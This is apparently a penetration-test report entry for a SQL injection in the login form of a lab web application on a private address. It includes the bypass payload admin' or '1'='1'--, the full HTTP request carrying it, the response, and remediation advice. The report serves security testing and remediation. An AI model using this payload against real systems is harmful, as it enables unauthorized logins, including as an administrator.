

## Critical - SQL Injection


| Vulnerability Name      | SQL Injection |
| ----------- | ----------- |
| Severity     | Critical      |
| Exploitability   	| Hacker       |
| User Interaction  | Not required       |
| Attack Vector   	| Internet       |
| Affected Scope   	| http://192.168.46.10:3000/#/login       |


**Description**

SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to affect the execution of predefined SQL commands.

Username parameter in the login page is vulnerable to SQL injection.

**Impact**

The vulnerability allows to bypass the login page to login as any user including the admin without the password.

**Test Details**

Screenshots



Payload

```
	admin' or '1'='1'--
```
Request
```
	POST /rest/user/login HTTP/1.1
	Host: 192.168.46.10:3000
	User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:92.0) Gecko/20100101 Firefox/92.0
	Accept: application/json, text/plain, */*
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate
	Content-Type: application/json
	Content-Length: 49
	Origin: http://192.168.46.10:3000
	Connection: close
	Referer: http://192.168.46.10:3000/
	Cookie: language=en; welcomebanner_status=dismiss; continueCode=E3OzQenePWoj4zk293aRX8KbBNYEAo9GL5qO1ZDwp6JyVxgQMmrlv7npKLVy

	{"email":"admin' or '1'='1'--","password":"1234"}
	
Response

	HTTP/1.1 200 OK
	Access-Control-Allow-Origin: *
	X-Content-Type-Options: nosniff
	X-Frame-Options: SAMEORIGIN
	Feature-Policy: payment 'self'
	Content-Type: application/json; charset=utf-8
	Content-Length: 831
	ETag: W/"33f-ncvYKqi8+0GW88YIH7i3xTrVgeY"
	Vary: Accept-Encoding
	Date: Fri, 01 Oct 2021 07:07:42 GMT
	Connection: close

	
```

**Remediation** 

- Most instances of SQL injection can be prevented by using parameterized queries (also known as prepared statements) instead of string concatenation within the query.

- Data sanitization. For more info, check references.

**References**

- https://portswigger.net/web-security/sql-injection

- https://blog.sqreen.com/preventing-sql-injection-in-node-js-and-other-vulnerabilities/

- https://javascript.plainenglish.io/sql-injection-attack-in-nodejs-a840893f228b

---

